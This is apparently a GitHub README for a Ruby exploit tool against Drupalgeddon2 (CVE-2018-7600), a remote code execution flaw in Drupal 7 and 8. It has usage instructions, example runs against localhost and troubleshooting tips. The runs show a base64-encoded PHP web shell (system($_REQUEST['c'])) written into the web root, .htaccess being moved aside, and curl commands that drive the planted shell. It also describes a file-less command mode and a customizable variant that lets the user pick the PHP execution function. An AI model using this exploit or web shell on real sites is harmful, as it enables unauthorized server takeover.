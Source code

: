 # CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'S4nji1-Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/emzkie2018/S4nji1-Drupalgeddon2/](https://github.com/emzkie2018/S4nji1-Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- Works with **direct commands** (aka File-Less Method) or writes a **PHP shell** to the web root (`./`) or sub-directories (`./sites/default/` & `./sites/default/files/`)
- Support **Linux** & **Windows** targets
- **Auto detects Drupal version** _(or takes a good guess!)_

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_

Authors:
- [Str4what-S4nj1](https://github.com/emzkie2018/S4nji1-Drupalgeddon2/)  _([@\_emzkie2018])_


Notes:
- For advance users/setups there is a more customizable exploit. See the `drupalgeddon2-customizable-beta.rb` section
- Before opening an issue, please, read the troubleshooting section at the end. Thanks!


- - -


## Usage:

```bash
$ ruby emzdrup2.rb
Usage: ruby emzdrup2.rb <target>
       ruby emzdrup2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./emzdrup2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TTTBJJBP
[+] Result : TTTBJJBP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=hostname'
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```bash
$ ./emzdrup2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.31
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TKYPVVJJ
[+] Result : TKYPVVJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=hostname'

ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
```


#### Direct Commands / Non PHP Shell (aka File-Less Method)

If either you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
try_phpshelltryphpshell = false
```

**Example**

```bash
$ ./emzdrup2.rb http://localhost/drupal-nonwrite/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-nonwrite/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-nonwrite/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-nonwrite/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo HYCBAIET
[+] Result : HYCBAIET
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [1] (HTTP Response: 403)...    May not be able to execute PHP from here?
[!] FAILED: Couldn't find writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct commands
drupalgeddon2>> lsb_release -a
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
drupalgeddon2>>
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -


#### Experimental but usable: emzdrup2-custom-beta.rb

`emzdrup2-custom-beta.rb` is intended for more advance users as its more customizable. It allows you to specify some more parameters as the PHP method to use (not only `system()` or `passthru()`) and the way to reach user/password form.

Usage examples:

```
$ ruby emzdrup2-custom-beta.rb https://example.com 7 id passthru 0

1st parameter: Target URL
2nd parameter: Drupal version (e.g. 7 or 8)
3rd parameter: Command
4th parameter: PHP method to use (e.g. passthru, exec, system, assert...)
5th parameter: 0 for "/?q=user/password", 1 for "/user/password"
```


- - -


## Troubleshooting:

- The target may redirect to another path, where Drupal exists (such as `HTTP 30x` responses)
    - Solution: Make sure you are using the correct Drupal path

- There is a limitations of a allowed characters that are able to be used in the payload/command
    - Solution: This is due to how the vulnerability sees them and them being encoded for the URL request. Encode the payload, decode it on the target. Such as base64

- If the target is Linux, and isn't using "GNU base64", it may be the BSD version _(or its not installed all together!)_
    - Solution: which to `base64 -D` (rather than `base64 -d`) or use the file-less method

- If the target using Windows, writing the PHP shell always fails
    - Solution: Use file-less method. This is because gets pipe to a unix program, rather than using `certutil` or `PowerShell`

- Drupal v8.x - `./.htaccess` will stop any PHP scripts from executing in `./sites/default/` if that is the writeable folder
    - Solution: Switch to the file-less method

- Drupal v8.x - "clean URL" isn't enabled on the target
    - Solution: N/A - Not vulnerable =(

- Drupal v7.x - If the `/user/password` form is disabled, you meed find another form _(remember to change the exploit!)_
    - Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability


- - -


## Links:

- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- CVE ~ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
- Write up & Research ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- cURL commands/sample PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
